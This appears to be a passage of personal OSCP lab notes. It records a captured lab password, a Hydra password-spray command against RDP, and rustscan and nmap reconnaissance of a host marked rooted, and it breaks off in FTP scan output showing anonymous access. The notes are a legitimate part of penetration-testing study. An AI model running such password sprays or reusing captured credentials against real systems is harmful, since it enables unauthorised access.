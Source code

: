 Password: `Voltaic1992`
Domain: `OSCP`

Hydra to password spray
```
hydra -L users -P passwords -u  -s 3389 -m 'oscp' 192.168.140.111 rdp
```
	need to find the right format

# Linux 3 - 192.168.140.112 - ROOTED
Target: `192.168.140.112`
### Recon
Start with a quick open port scan
```sh
rustscan 192.168.140.112
```
	PORT   STATE SERVICE REASON
	21/tcp open  ftp     syn-ack
	22/tcp open  ssh     syn-ack
	80/tcp open  http    syn-ack

![[Pasted image 20231218114044.png]]

Secondary Scan
```
nmap --top-ports 3000 -T5 192.168.140.112 -v
```
	Would have missed mySQL
	
![[Pasted image 20231219002703.png]]

Follow up with a service scan on those open ports
```sh
nmap -sC -sV -p21,22,80 -v -T4 192.168.140.112 -oN services.nmap
```
![[Pasted image 20231218114309.png]]
## 21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 114      120         55699 Jan 03  2023 applications-dec22.zip
| -rw-r--r--    1 114      120         72600 Mar 04  2023 applications-feb23.zip
| -rw-r--r--    1 114      120         65042 Feb 02  2023 applications-jan23.zip
|_-rw-r--r--    1 114      120         49040 Dec 02  2022 applications-nov22.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.140
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text